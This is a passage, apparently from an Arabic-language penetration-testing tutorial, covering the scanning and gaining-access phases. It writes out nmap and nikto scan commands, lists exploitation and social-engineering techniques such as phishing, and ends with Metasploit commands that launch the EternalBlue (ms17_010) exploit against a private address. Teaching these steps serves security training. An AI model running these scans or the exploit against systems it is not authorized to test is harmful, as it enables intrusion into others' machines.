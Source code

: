 ```

أمثلة:
nmap -sn 192.168.1.0/24  # Ping sweep
nmap -p- 192.168.1.1      # Port scan
```

**2. Scanning (المسح):**
```
الهدف: فحص الأنظمة بحثاً عن نقاط الضعف

أ. Port Scanning:
nmap -sV -sC -O -p- 192.168.1.1
# -sV: Version detection
# -sC: Default scripts
# -O: OS detection
# -p-: All ports

ب. Vulnerability Scanning:
nmap --script vuln 192.168.1.1
nikto -h http://example.com
openvas

ج. Network Mapping:
- تحديد الأجهزة النشطة
- رسم خريطة الشبكة
- تحديد العلاقات بين الأنظمة
```

**3. Gaining Access (الوصول):**
```
الهدف: استغلال الثغرات المكتشفة

أ. Exploitation:
- استخدام Metasploit
- كتابة exploits مخصصة
- Password cracking
- SQL Injection
- XSS
- CSRF

ب. Social Engineering:
- Phishing emails
- Pretexting
- Baiting

أمثلة Metasploit:
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.10
exploit
```
